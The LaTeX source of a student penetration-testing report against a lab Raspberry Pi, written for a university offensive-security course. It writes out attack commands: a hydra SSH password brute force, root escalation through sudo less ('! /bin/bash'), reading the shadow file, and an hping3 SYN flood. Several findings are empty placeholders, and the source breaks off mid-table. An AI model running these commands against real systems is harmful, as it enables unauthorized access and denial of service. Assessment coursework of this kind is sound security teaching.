%Dokumentklasse
\documentclass[a4paper,12pt]{scrreprt}
\usepackage[left= 2cm,right = 2cm, top=1cm]{geometry}
\usepackage[onehalfspacing]{setspace}
% ============= Packages =============
% Dokumentinformationen
\usepackage[
	pdftitle={Penetration Testing Report},
	pdfsubject={},
	pdfauthor={Steven Hartinger},
	pdfkeywords={},	
	%Links nicht einrahmen
	hidelinks
]{hyperref}

\pagestyle{plain}
% Standard Packages
\usepackage[utf8]{inputenc}
\usepackage[skip=0.333\baselineskip]{caption}
\usepackage{booktabs,tabularx,ragged2e}
\usepackage{graphicx, subfig}
\graphicspath{{img/}}
\usepackage{multirow}
\usepackage{ltablex}
\usepackage[english]{babel}
\usepackage[T1]{fontenc}
\usepackage{fancyhdr}
\usepackage{lmodern}
\usepackage[export]{adjustbox}
\usepackage{setspace}
\usepackage{float}
\usepackage{multicol}
\usepackage{blindtext}
\usepackage[table]{xcolor}
\usepackage{tikz}
\usepackage{textpos}
\usepackage{afterpage}
\usepackage[nohyperlinks, printonlyused]{acronym}
\usepackage{listings}
\usepackage{lastpage}
\usepackage{titlesec}


\titleformat{\section}[wrap]
{\normalfont\bfseries}
{\thesection.}{0em}{}

\titlespacing{\section}{16pc}{1.5ex plus .1ex minus .2ex}{0pc}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=8pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}





% zusätzliche Schriftzeichen der American Mathematical Society
\usepackage{amsfonts}
\usepackage{amsmath}

%nicht einrücken nach Absatz
%\setlength{\parindent}{0pt}


% ============= Kopf- und Fußzeile =============

% ============= Package Einstellungen & Sonstiges ============= 
%Besondere Trennungen
\hyphenation{De-zi-mal-tren-nung}


% ============= Dokumentbeginn =============

\begin{document}
\pagestyle{empty}
%Seiten ohne Kopf- und Fußzeile sowie Seitenzahl

\begin{center}
\begin{tabular}{p{\textwidth}}



\includegraphics[scale=0.5, right]{img/dhbw-logo.png}


\\

\begin{center}
\LARGE{\textsc{
Ethical Hacking:\\
Website-Penetration Testing \\
}}
\end{center}

\\


\begin{center}\large
    { im Studiengang}
\end{center}

\\

\begin{center}\large
    { Informatik Cybersecurity}
\end{center}

\begin{center}
an der dualen Hochschule Baden-Württemberg Mannheim
\end{center}


\begin{center}
von
\end{center}


\begin{center}
    \begin{tabular}{lll}
    \textbf{Name, Vorname:} & & Hartinger, Steven\\
    \textbf{Abgabedatum:} & & 01.09.2022\\
    \end{tabular}
    \end{center}

\\

\\

\begin{center}
\begin{tabular}{lll}
\textbf{Bearbeitungszeitraum:} & & 27.06.2022 - 01.09.2022\\
\textbf{Matrikelnummer, Kurs:} & & 7146735, TINF20CS1\\
\textbf{Ausbildungsunternehmen} & & MLP Finanzberatung SE\\
\textbf{Betrieblicher Betreuer:} & & Sebastian Damm\\

\\
\\


\end{tabular}
\end{center}

\end{tabular}
\end{center}

%Inhaltsverzeichnis
\tableofcontents
\pagestyle{plain}

\chapter{General Information}

\section*{Risk Assessment}
The following risk assessment is based on both personal experience and objective fact. The aim of this assessment is to provide the client with an overview of the potential risks associated with their information technology (IT) infrastructure. Through this evaluation, we hope to identify the most significant risks and potential consequences of those risks, enabling the client to make informed decisions on how to mitigate those risks.
\\\\
Our assessment is based on a combination of personal experience and best practices in the field of IT security. We have conducted extensive research and analysis, examining the client's IT infrastructure and identifying any vulnerabilities or weaknesses. 
\\\\
The purpose of this assessment is to give the client an idea of the severity of the risks present in their IT infrastructure. By providing a clear understanding of the potential consequences of these risks, the client can prioritize their resources to address the most significant risks first. It is important to note that while we have taken every effort to identify and evaluate all potential risks, new threats and vulnerabilities can arise at any time. Therefore, this risk assessment should be considered an ongoing process and reviewed regularly to ensure its relevance and accuracy.

\section*{Risk Matrix}
The following matrix was used to categorize the risk level of the vulnerabilities listed in this document:
\\

\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|p{3.3cm}|p{3cm}|p{3cm}|p{3cm}|}
        \hline
        Impact/Likelihood&Low&Medium &High\\
    \hline
    High&\cellcolor{red!30}High&\cellcolor{red!30}High&\cellcolor{red}Critical\\
    \hline
    Medium&\cellcolor{yellow!30}Low& \cellcolor{orange!30}Medium&\cellcolor{orange!30}Medium \\
    \hline
    Low&Low&Low&Low\\  
    \hline
    \end{tabular*}
    \end{table}    

\pagestyle{plain}

\chapter{Executive Summary}
\section*{Synopsis}
\hfill\break

As part of the lecture ''Offensive Security'' by Dr. Prof. Bauer the students of the TINF20CS1 performed a review on a Raspberry Pi handed by our lecturer. The objective of this task is to prepare a report on penetration testing for a Raspberry Pi B3+. The Raspberry Pi B3+ is powered by a 64-bit quad-core ARM Cortex-A53 CPU operating at 1.4GHz and has 1GB of LPDDR2 RAM. Its 40-pin GPIO header allows users to connect a diverse range of sensors and actuators, making it an excellent tool for development and learning. The device provided for this assignment comes with a 16GB microSD card, a 5V 2.5A power supply connected to a Micro-USB Cable, and a case. Our aim is to assess the security of the \ac{DUT}, including its OS and services, without prior knowledge of the specifics.
\section*{Scope}
\hfill \break

Our assessment included:
\begin{itemize}
    \item Validation of the given Raspberry Pi without exact requirements. 
    \item Provide countermeasures for vulnerablities of the system.
\end{itemize}

The threats included:
\begin{itemize}
    \item Network Eavesdrop - The attacker is on a wireless communication channel or somewhere else on the network
    \item Network Attack - The attacker is on a wireless communication channel or somewhere else on the network
    \item Physical Access - The attacker has physical access to the device
    \item Malicious Code - Malicious code loaded onto the Raspberry Pi
\end{itemize}

Testing was performed on:
\begin{itemize}
    \item Raspberry Pi 3
\end{itemize}

\section*{Limitations}
\section*{}

For this assessment we are not having any limitation besides a time limit.
\section*{Key Findings}
\hfill\break

This penetration test report revealed a significant number of critical findings that require immediate action to prevent potential security breaches. The test identified a total of 22 findings, including unauthorized access to the Device Under Test (DUT) and several misconfigurations that could be exploited by attackers. \\
Based on these findings, urgent action is required to address the vulnerabilities and mitigate potential risks. We recommend implementing a comprehensive security program that includes regular patching, strong authentication controls, and network segmentation to limit access to sensitive resources.\\
Furthermore, it is crucial to review and update security policies and procedures to ensure they align with industry standards and best practices. Regular security training for staff and users is also necessary to raise awareness and promote good security practices.\\
In conclusion, this report highlights security risks and vulnerabilities present in the DUT. It is essential to take immediate action to address these issues and implement a comprehensive security program to ensure the confidentiality, integrity, and availability of sensitive data and systems.


\chapter{Technical Summary}
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|p{6cm}|p{4cm}|}
    \textbf{\large Description} & \textbf{\large Severity}\\
    \hline
    \large Possible Path Traversal of Apache Server on port 80& Medium\\
    Category&\\
    Impact& \\\\
    Description&\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation&\\    
    \end{tabular*}
    \end{table}

\chapter{Findings}

After conducting a thorough analysis, we have identified several key findings that can help us better understand the risks and impacts associated with our operations. To better organize these findings, we have categorized them into five key areas: 
\newline 

\begin{itemize}
    \item Name
    \item Category
    \item Impact
    \item Description
    \item Recommendation
\end{itemize}
Overall, these findings provide valuable insights into the risks and impacts associated with our operations, and we believe that implementing the recommended actions will help us improve our performance and achieve our goals in a more effective and sustainable way.


\afterpage{
\newgeometry{left= 0cm,right = 1cm, top=0.5cm}
% material for this page


\chapter*{Findings}
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{orange!15}}p{3cm}|p{17.1cm}|}
    \textbf{Finding} & \textbf{Path Traversal}\\
    Risk& Medium\\
    Category&Access Controls\\
    Impact& An attacker could access sensitive data. This can also happen with any user by accident. \\ \\
    Description& After performing an nmap scan three open ports where found. Since there is most likely a \ac{http} service running on port 80 a http-enum script was used to try to access several potentially interesting paths.
    \newline
    
\includegraphics[width = 0.73\textwidth]{http_vulnerbility.jpg}
    \newline
    The script was able to access the ''/home'' path where the apache server has its directories saved. In this case no sensitive files were found. 
    \\&
    
\includegraphics[width = 0.5\textwidth]{dateisystem.jpg} \\
    Recommendation&\\
    \end{tabular*}
    \end{table}

\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!30}}p{3cm}|p{17.3cm}|}
    \textbf{\large Finding} &\textbf{\large Weak Password for User ''Bluey''} \section*{}\addcontentsline{toc}{section}{Finding 2 - Weak Password for User ''Bluey''}\\
    Risk& Critical\\
    Category&Access Controls\\
    Impact& An attacker can login as the user ''bluey'' and access \ac{ssh}.\\\\ 
    Description& After finding out the user names in the last finding the tool hydra was used to try to brute force the passwords of the users. Therefore we used the following script: \newline hydra -l bluey -P rockyou.txt 172.16.0.29 ssh -t 4 -V -I 
	\newline
	The file "rockyou.txt" provided by kali linux includes a list of popular passwords. The hydra script tries to establish a SSH connection by trying every single one of the passwords. With the option ''-t 4'' four passwords are used at once.
	\newline
	
\includegraphics[width = 0.73\textwidth]{brute-force.jpg} 
	\newline
	As shown in the graphic above, Hydra was able to find out the password of the user ''bluey'' which is ''phoenix''. With this information it was possible to establish a SSH connection with the user ''bluey''.
	\\ 
	&\\
    &\\
    Recommendation& Immediate change password of user ''bluey'' and establish an appropriate password policy. 
    \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\  
    \end{tabular*}
    \end{table}

\chapter*{Findings}
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{orange!15}}p{3cm}|p{17.1cm}|}
    \textbf{Finding} & \textbf{No SSH Brute-Force Protection}\\
    Risk& Medium\\
    Category& Misconfiguration\\
    Impact& An attacker is able to brute force the passwords of the ssh user accounts.\\ 
    Description&
    Considering there are no limitations for login attempts are configured performing an brute force attack via the hydra tool is possible (See Finding Weak Password for User ''Bluey'').  
	\\ 
    Recommendation& Limit the login attempts of the users.\\
    &\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    &\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\ 
    &\\    
	&\\       
    &\\    
    &\\    
	&\\    
	&\\        
    \end{tabular*}
    \end{table}

\section{Finding 4 - SSH Root Access via less}
\hrule
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!30}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{SSH Root Access}\\
    Risk& Critical\\
    Category& Access Controls, Privilege Escalation\\
    Impact& An attacker is able to gain SSH root access.\\ 
    Description& After logging into the user account ''bluey'' the command ''sudo -l'' illustrates the users privileges. 
    \newline
    \newline
    
\includegraphics[width=0.73\textwidth]{sudo_l.jpg}
    \newline
    The command disclosed that ''bluey'' has root access for the command: ''/usr/bin/less /var/log/auth.log'' without as password. Although there was initially a misinterpretation of the output when attempting to run ''sudo less'' on a file or accessing the ''auth.log'' file, the command ultimately worked. Upon conducting research on methods for escalating privileges, it was discovered that it is possible to input ''! /bin/bash'' into the less command line, which will grant root access to the bash.
    \newline
    \newline
    
\includegraphics[width=0.73\textwidth]{root_access.jpg}
    \newline
    Executing the command ''id'' will display the current user. The graphic above illustrates that the current user has a uid of zero, which corresponds to the root user.
    The root user has all privileges as shown under the headline ''privilege specification''.
    \\
    \end{tabular*}
    \end{table}
    
\newpage
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!30}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{SSH Root Access via less}\\
    
	&\\

    Recommendation& Edit the 'sudoers' file via 'visudo' and delete the last line.\\    
    \end{tabular*}
    \end{table}

\chapter*{Findings}
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.1cm}|}
    \textbf{Finding} & \textbf{SSLv2, SSLv3,TLS 1.1 support}\\
    Risk& High\\
    Category & Misconfiguration\\
    Impact& Decrypt Data, Man in the Middle Attacks \\ 
    Description& The \ac{tls} configuration supports the deprecated protocols: SSLv2, SSLv3, TLS 1.1. Executing the command: ''openssl s\_client --connect 172.16.0.29:433 -ssl2'' opens an SSLv2 connection to the server 172.16.0.29 on port 433 and displays the encryption and certificate information.
    \newline
    \newline
    
\includegraphics[width=0.73\textwidth]{ssl_2_support.jpg}
    \newline
	\\ 
    Recommendation&\\    
    \end{tabular*}
    \end{table}

\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{orange!15}}p{3cm}|p{17.3cm}|}
    \textbf{\large Finding} & \textbf{\large Vulnerable OpenSSH Version}\section*{}\addcontentsline{toc}{section}{Finding 6 - Vulnerable OpenSSH Version}
    \\
    Risk& Medium\\
    Category& Vulnerable Software Version\\
    Impact& An attacker who can access the socket of the forwarding agent remotely may be able to execute unauthorized code with the same privileges as the process or cause a \ac{DoS} situation. An Attacker can perform privilege escalation when AuthorizedKeysCommand/AuthorizedPrincipalsCommand are configured.
    CVE-2021-28041, CVE-2021-41617\\\\ 
    Description&
    An nmap scan illustrated the openssh version. 
    \newline
    
\includegraphics[width=0.73\textwidth]{vulnerable_software.jpg} 
    \newline  
    The openssh version ''OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)'' has several vulnerabilites under certain circumstances mentioned in the impact part.
	\\ 
	&\\
	&\\ 
    &\\ 
    Recommendation& Patch your OpenSSH Version to a newer, not vulnerable version.\\
    \\\\\\\\\\\\\\\\\\
    \end{tabular*}
    \end{table}



\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{orange!15}}p{3cm}|p{17.3cm}|}
    \textbf{\large Finding} & \textbf{\large Vulnerable Apache Version}\section*{}\addcontentsline{toc}{section}{Finding 7 - Vulnerable Apache Version}
    \\
    Risk& Medium\\
    Category& Vulnerable Software Version\\
    Impact& The client may not interpret security-related headers if a malicious backend causes the response headers to be truncated early, resulting in some headers being included in the response body. An attacker can perform HTTP Request Smuggeling due to inconsistend interpretation of HTTP Requests.
    CVE-2022-37436, CVE-2022-36760\\\\ 
    Description&
    An nmap scan illustrated the Apache version. 
    \newline
    
\includegraphics[width=0.73\textwidth]{vulnerable_software.jpg} 
    \newline  
    The apache version ''Apache 2.4.54'' has several vulnerabilites.
	\\ 
	&\\
	&\\
	&\\
    Recommendation& Patch your OpenSSH Version to a newer, not vulnerable version.\\    
    \\\\\\\\\\\\\\\\\\\\\\\\
    \end{tabular*}
    \end{table}

\section{Finding 7 - Root read access on port 433}
\hrule
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{Root read access on port 433}\\
    Risk& High \\
    Category & Broken Access Control, Misconfiguration\\
    Impact& An attacker read access to all files on the server. This can also happen to regular users by accident.\\ 
    Description& 
    After trying to access the server on port 433 with the url https://172.16.0.29:433 an error message was displayed: \newline \newline
    Error opening ''
    548660451168:error:02001002:system library:fopen:No such file or directory:bss\_file.c:169:fopen('','r') \newline
    548660451168:error:2006D080:BIO routines:BIO\_new\_file:no such file:bss\_file.c:172:
    \newline
    After considering serveral option what the purpose of the \ac{https} service running on port 433 was, it turned out that it represents the file system of the server. It is possible to access serveral files on the server.
    \newline
    \newline
    
\includegraphics[width=0.73\textwidth]{Webserver_root_access.jpg}
    \newline
    Shown in the graphic above it was possible to access the shadow.txt file of the server where the hashes of all user passwords are listed.
	\\   
    \end{tabular*}
    \end{table}
    \newpage
    \begin{table}[htb]
        \renewcommand{\arraystretch}{1.5}
        \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.2cm}|}
        \textbf{Finding} & \textbf{Root read access on port 433}\\
        
        &\\
    
        Recommendation& Establish correct error handling. To enhance security, it is important to restrict users' access to authorized paths. This can be achieved by prompting for a password when attempting to access the website, or by implementing a login system that requires users to authenticate themselves before accessing the path.\\
        \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\  
        \end{tabular*}
        \end{table}

\chapter*{Findings}
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{yellow!15}}p{3cm}|p{17.1cm}|}
    \textbf{Finding} & \textbf{Coding mistake leads to disk-image access}\\
    Risk& Low\\
    Category& Obfuscation, information disclosure\\
    Impact& An attacker can obtain the passphrase to decrypt the disk-image file 'container.img'\\\\ 
    Description& Analyzing the file system of the server named 'plunder' running on port 22, a disk-image file 'container.img' was found. After trying to mount the image the following error message appeared:
    \newline
    \newline
    
\includegraphics{mount_error.jpg}
    \newline
    \newline
    Given that the filesystem is apparently from type 'crypto\_LUKS' the disk-image is most likely encrypted. Through research the following command was tried to decrypt the filesystem:
    \newline
    \newline
    
\includegraphics{cryptsetup_enterpassphrase.jpg}
    \newline
    \newline
    The first method to access the container image was a brute force attack. Since we have credentials for the SSH we copied the image to our local kali linux machine with the following command: ''scp root@172.16.0.29:/srv/container.img output.img''
    After copying the file a brute force attack was performed using the tool bruteforce-luks.
    \newline
    \newline
    
\includegraphics{brute-force-luks.jpg}
    \newline
    \newline
    However there was no matching password found with this method.   
    \end{tabular*}
    \end{table}

\chapter*{Findings}
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.1cm}|}
    \textbf{Finding} & \textbf{Credentials accessible inside container image}\\
    Risk& High\\
    Category& Information disclosure\\
    Impact& An attacker gains admin password of some service\\\\
    Description& Inside the container image of the previous finding insecure coding there was a 'cryptofs\_init' file. Opening the file there was a admin password as shown in the graphic below.
    \newline
    \newline
    
\includegraphics{cryptofs_init.jpg}
    \newline
	\\ 
    Recommendation& Credentials should be stored in a seperat environment. Further the password should not be stored in clear text in a file.\\
    \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\    
    \end{tabular*}
    \end{table}

\section{Finding 10 - Root access via authorized keys entry of user bluey}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!40}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{Root access via authorized keys entry of user bluey}\\
    Risk& Critical\\
    Category& Privilege Escalation, Misconfiguration\\
    Impact& An attacker with access to user bluey can gain root access\\\\
    Description& The authorized\_keys file in the root directory has an entry.
    \begin{lstlisting}[language=bash]
plunder [~/.ssh]: cat authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMO EhQP4e3BVrq0R9nPQz folf9349W/UDXSAbQIj6RDM joe@reliant
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINV2RROAIF7+9Cm7U2PWVTmJx0hjvTQeYF04L07 Et1qk bluey@plunder
    \end{lstlisting}
    Given this information it is feasible to obtain root access by logging into the root account via ssh without using password.
    \newline
    \newline
    
\includegraphics{root_login.jpg}
    
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation&\\    
    \end{tabular*}
    \end{table}

\chapter*{Findings}
\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.1cm}|}
    \textbf{Finding} & \textbf{Weak cipher suites support}\\
    Risk& \\
    Category&\\
    Impact& \\\\
    Description&
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation&\\    
    \end{tabular*}
    \end{table}

\section{Finding 12 - SYN Flooding Attack}
\hrule\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{orange!15}}p{3cm}|p{17.2cm}|}
    \textbf{Finding} & \textbf{SYN Flooding Attack}\\
    Risk& Medium\\
    Category& Denial of Service\\
    Impact& The DUT is not accessible\\\\
    Description& The execution of a SYN Flooding Attack was accomplished with the following command: \newline
    hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 172.16.0.29
    \newline
    This command sends 15000 packets with 120 bytes and a window size of 64 to port 80.
    \newline
    \newline
    
\includegraphics[width=0.85\textwidth]{wireshark_dos.jpg}
    \newline
    Illustrated in the graphic, wireshark captured the TCP SYN packages which were send to the DUT. After a couple of seconds it was not possible to access the server anymore.
	\\ 
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
	&\\
    Recommendation& Possible countermeasures to SYN Flooding are intrusion prevention systems that monitor the network for suspicious behaviour or implementing SYN cookies to track incoming connection until the three-way handshake is completed.\\  
    \\\\
    \end{tabular*}
    \end{table}


\begin{table}[htb]
    \renewcommand{\arraystretch}{1.5}
    \begin{tabular*}{\textwidth}{|>{\columncolor{red!15}}p{3cm}|p{17.3cm}|}
